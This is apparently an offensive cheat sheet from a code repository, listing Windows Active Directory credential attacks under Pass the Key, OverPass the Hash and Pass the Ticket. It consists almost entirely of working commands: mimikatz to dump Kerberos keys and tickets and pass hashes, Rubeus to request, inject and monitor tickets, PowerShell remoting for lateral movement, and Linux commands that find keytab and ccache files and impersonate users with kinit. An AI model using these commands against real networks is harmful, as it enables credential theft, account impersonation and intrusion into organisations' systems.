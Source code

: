 
### Pass the Key or OverPass the Hash

```shell
# Extracting kerberos keys using mimikatz
privilege::debug
sekurlsa::ekeys
# Extracting kerberos tickets
sekurlsa::tickets /export
Rubeus.exe dump /nowrap
# Over Pass the hash
sekurlsa::pth /user:$USERNAME /rc4 or /NTLM:$HASH /domain:$DOMMAIN /run:cmd.exe
# Rubeus - Pass the Key or OverPass the Hash
Rubeus.exe  asktgt /domain:$DOMAIN /user:$USER /aes256:=$ekeys_aes256_hmac /nowrap
```

### Pass The Ticket (PtT)

- From windows host:

```shell
# Using rubeus
## Create a Sacrificial Process with Rubeus
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
## Perform pass the ticket
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:=$ekeys_aes256_hmac /ptt
Rubeus.exe ptt /ticket:$TICKET_PATH.kribi or $BASE64_TICKET

# Using mimikatz
privilege::debug
kerberos::ptt "$TICKET_PATH.kribi"

# Use PS remoting for lateral movement
Enter-PSSession -ComputerName $COMPUTER_NAME
```

- You can also monitor Kerberos tickets using Rubeus:

```
Rubeus.exe monitor /interval:1

# Now use the ticket
cat ticket | base64 -d > $USER.kribi
impacket-ticketConverter $USER.kribi $USER.ccache
```

- From linux host:

```shell
# Check If Linux Machine is Domain Joined
realm list
ps -ef | grep -i "winbind\|sssd"

# Finding Keytab Files
find / -name *keytab* -ls 2>/dev/null
ls -la /tmp
# Identifying Keytab Files in Cronjobs
crontab -l
# Reviewing Environment Variables for ccache Files
env | grep -i krb5

# Abusing KeyTab Files
## Listing keytab File Information
klist -k -t $PATH.keytab 
## Impersonating a User with a keytab
kinit $USER@$DOMAIN -k -t $PATH.keytab
## Verify if it is added
klist
```